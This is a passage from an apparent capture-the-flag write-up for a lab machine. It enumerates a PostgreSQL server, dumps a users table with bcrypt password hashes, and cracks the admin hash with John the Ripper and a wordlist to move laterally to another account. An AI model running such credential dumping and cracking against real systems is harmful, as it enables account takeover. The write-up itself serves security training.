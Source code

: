 Enumerating databases and tables:
```bash
postgres=# \list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

Lets look at `cozyhosting`:

```bash
postgres=# \c cozyhosting
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)
```

Dump `users`

```bash
cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

Tossing this hash into JtR:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt admin-hash.txt      
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:03 DONE (2023-09-25 21:47) 0.2688g/s 774.1p/s 774.1c/s 774.1C/s onlyme..soccer9
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

This credential allows lateral movement to `josh`
